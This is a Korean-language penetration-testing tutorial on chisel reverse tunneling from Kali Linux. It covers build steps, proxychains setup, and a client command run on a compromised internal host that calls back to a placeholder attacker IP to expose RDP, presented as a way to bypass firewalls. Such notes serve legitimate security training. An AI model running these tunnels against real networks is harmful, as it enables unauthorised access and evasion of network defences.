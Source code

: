 > 칼리 리눅스에서는 보통 공격자의 서버 역할을 하고, 내부망에 침투한 호스트에 클라이언트를 설치해 리버스 터널을 만드는 방식으로 사용한다. 방화벽/네트워크 정책 우회에도 매우 유용하다

### 설치 및 설정
[chisel github repo] : https://github.com/jpillora/chisel

```sh
# go languege 설치
sudo apt update -y 
sudo apt install golang-go -y

# chisel 설치 및 리눅스 용 빌드
git clone https://github.com/jpillora/chisel.git
cd chisel && go build

# windows 용 chisel 빌드 방법
┌──(kali㉿kali)-[~/Desktop/PNT/chisel]
└─$ GOARCH=amd64 GOOS=windows go build -o chisel.exe  

└─$ ll
total 29488
-rwxrwxr-x 1 kali kali 14914517 Sep 12 13:39 chisel
-rwxrwxr-x 1 kali kali 15202816 Sep 12 13:43 chisel.exe

# 피벗 호스트로 파일 옮기기
sudo scp chisel [피벗호스트계정@아이피:파일경로]
```

ProxyChains4 config 파일 설정
```sh
└─$ sudo vi /etc/proxychains4.conf 
...
[ProxyList]
socks5 127.0.0.1 8080		//프록시 포트 지정
```

### 기본 사용법
1. Chisel 서버 실행하기 (칼리 리눅스에서는 주로 서버 역할)
```sh
sudo chisel server -p 8080 --reverse
```
- `-p 8080` : 8080 포트에서 터널 서버를 대기시킴
- `--reverse` : 리버스 터널링 활성화 (클라이언트가 서버 쪽으로 터널 생성 가능)

2. 클라이언트 실행하기 (내부망에 침투한 대상 시스템)
내부 Windows나 Linux 시스템에서 클라이언트를 실행하여 칼리 서버로 리버스 터널을 만든다.
```sh
chisel client 공격자_IP:8080 R:3389:127.0.0.1:3389
```
- 리버스 포트포워딩으로 칼리 서버에서 내부 포트 3389(RDP)에 접근 가능
- Windows RDP나 기타 내부서비스 우회 탐색에 사용

3. SOCKS5 프록시 사용(내부망 탐색 확장)
칼리 서버에서 SOCKS5 프록시를 활성화하면서 서버 실행
```sh
sudo chisel server -p 8080 --reverse --socks5
```
